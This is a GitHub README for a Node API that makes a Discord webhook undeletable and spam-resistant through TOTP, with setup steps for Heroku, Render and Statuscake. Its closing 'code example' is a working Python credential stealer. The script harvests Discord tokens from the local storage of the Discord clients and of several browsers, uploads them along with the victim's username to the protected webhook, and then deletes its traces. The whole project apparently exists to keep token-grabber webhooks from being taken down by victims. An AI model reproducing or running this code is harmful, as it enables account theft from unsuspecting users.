 

<h1 align="center">
  <a id="top"></a>Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>


<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---


## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setup the Api with Heroku](#heroku)
- [🎉・Setup the Api with Render](#render)
- [🧪・Testing the Api](#testing)
- [🟢・Keeping It alive 24/7](#alive)
- [⚙ ・Settings](#settings)
- [🎈・Code example](#code-example)

## <a id="features"></a>🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```
---

### <a id="heroku"></a>📁 〢 Hosting the API with Heroku

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku main"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku master"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
<center><a href=#content> Back To Content </a> </center>

---

### <a id="render"></a>📁 〢 Hosting the API with Render

1. Setup an account on [Render](https://dashboard.render.com/register)
2. [Fork](https://github.com/Rdimo/Discord-Webhook-Protector/fork) This Repo **(Dont Forget to Make it Private And Edit the config.js File)**
3. Go to [This](https://dashboard.render.com/select-repo?type=web) Link and connect your GitHub Account
4. Select the repo you just made 
  ![image](https://user-images.githubusercontent.com/86944806/170194672-2a21aed0-cc1b-4efb-88d5-c835034c2e70.png)
5. On the next screen enter a uniqe name for it **(this name will be in your api)**
6. Select **Node** as your environment
![image](https://user-images.githubusercontent.com/86944806/170195377-fbc7a054-5b8b-4255-aaea-5a209d6c65af.png)
7. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170195784-9df18d5f-c8e5-4694-bafc-57e59fe0ee0e.png)
8. Thats it! It will build it in some time now **(Approx 5 mins)**
9. Your api url should look like this **(https://youruninqename.onrender.com)**
![image](https://user-images.githubusercontent.com/86944806/170196327-c44fa2c1-619f-43c4-b5aa-a121a98493bf.png)

<center><a href=#content> Back To Content </a> </center>

### <a id="testing"></a> 🧪〢Testing the Api

For testing that your api works, open test folder and edit the test .py file by putting your api url and passsword then open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

It should've made a post request to the api uploading itself and sending "it works!" to the webhook
<center><a href=#content> Back To Content </a> </center>

---

### <a id="alive"></a>🟢〢Keeping It Alive 24/7

Free hosting will sleep your API after inactivity. It is 15 mins for Render. Now ofc we aren't gonna keep using our webhook so we can use a site like [Statuscake](statuscake.com) which is free.

***Note:** Heroku gives only 550 hours for free in a month whereas Render gives 750 hours (There are 744 hours in a month). So If u use this method on heroku then your api will be offline for last 8 days of the month. (Unless You have more hours on heroku by entering your credit card or buying) And so I recommend you use Render the host the API*

1. Sign up on [Statuscake](https://app.statuscake.com/Try)
2. Create a new [UpTime Test](https://app.statuscake.com/AddSite.php)
![image](https://user-images.githubusercontent.com/86944806/170201838-fc68aa1a-a554-4786-856b-ccf6b7d6170a.png)
3. Head down to ![image](https://user-images.githubusercontent.com/86944806/170203552-041cf979-c32b-4ed6-9051-f6d738949027.png) and follow what I've done. **(Don't Forget to❌the code 401)**
![image](https://user-images.githubusercontent.com/86944806/170203426-ed45ac96-d46c-4176-b977-e3164c57e6e9.png)
4. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170204712-47185645-0e81-4538-9829-5fca1ffa9e20.png)
5. Add if u want though its not needed **(click ok if u don't want to add)**
![image](https://user-images.githubusercontent.com/86944806/170204283-6de3d140-ef94-4cbf-88e0-1ad8da0872b8.png)
6. Thats it! Your webhook is now gonna be live 24/7
<center><a href=#content> Back To Content </a> </center>

---

### <a id="settings"></a> ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "ratelimit": true, //if you want it to ratelimit unauthorized requests or not
  "rateLimitTimeout": 30000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```
<center><a href=#content> Back To Content </a> </center>

---

### <a id="code-example"></a>🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [xrevix](https://github.com/xrevix) for bug testing and reporting all of them 😘

<p align="center"><a href=#top>Back to Top</a></p>
